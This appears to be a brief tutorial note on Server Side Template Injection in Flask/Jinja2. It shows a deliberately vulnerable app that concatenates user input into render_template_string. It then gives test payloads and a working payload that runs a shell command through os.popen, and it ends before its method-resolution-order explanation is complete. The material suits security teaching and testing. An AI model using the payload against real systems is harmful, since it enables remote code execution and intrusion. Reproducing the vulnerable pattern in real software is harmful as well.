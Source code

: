 ## Server Side Template Injection (SSTI)
 
 ```
from flask import Flask, render_template_string

app = Flask(__name__)


@app.route("/test/<user>")
def index(user=None):
    html = "<body>Hi "+user+"</body>"
    return render_template_string(html)


app.run() 
 ```
 
 
when testing for Server Side Template Injection (SSTI) in a jinja 2 application i usualy try the following payloads :
- {{7*7}} 
> 49
- {{7*'7'}}
> 7777777
 
 
 To fully understand how to exploit this vuln you first need to understand Method Resolution Order (MRO). MRO is the order in which python ooks for a method in a hierarchy of classes and you can use the MRO function to list these classes.
 
 - ` {{config.__class__.__init__.__globals__['os'].popen('whoami').read()}} `
 
 
